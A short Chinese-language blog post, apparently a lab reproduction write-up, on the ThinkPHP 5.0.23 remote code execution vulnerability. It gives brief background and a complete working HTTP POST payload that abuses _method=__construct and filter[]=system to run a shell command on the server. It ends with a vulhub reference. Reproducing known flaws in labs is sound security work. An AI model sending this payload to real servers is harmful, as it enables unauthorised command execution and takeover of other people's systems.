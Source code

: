 ```yaml
---
title: ThinkPHP5 5.0.23 远程代码执行漏洞
date: 2020-06-14 13:42:51
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 背景

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

<!--more-->

####  复现过程

发送如下POC

```http
POST /index.php?s=captcha HTTP/1.1
Host: IP:端口
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

![](http://qn.laohuan.xin/2020-06-14_13-39-28.png)

#### 参考链接

<http://github.com/vulhub/vulhub/blob/master/thinkphp/5.0.23-rce/README.zh-cn.md/>